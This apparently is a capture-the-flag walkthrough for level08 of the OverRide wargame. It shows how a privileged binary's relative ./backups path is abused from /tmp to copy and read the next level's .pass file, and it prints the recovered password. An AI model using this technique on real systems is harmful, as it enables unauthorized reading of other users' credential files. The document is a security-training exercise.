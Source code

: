 # level08 walkthrough

## the binary
``` shell
level08@OverRide:~$ ./level08 
Usage: ./level08 filename
ERROR: Failed to open (null)
```

## methodology
- directory traversal attack

Upon examining the binary, we see that it attempts to open a remote file. However, accessing the next level password directly is not possible:
``` shell
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

Since we can't create the backup directory directly in the `/home` directory due to permissions, we move to `/tmp` and create a directory structure that matches the required path:
``` shell
level08@OverRide:/tmp$ mkdir -p backups//home/users/level09/
```

From this location, we run the command again to retrieve the password for level09.

## flag
``` shell
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

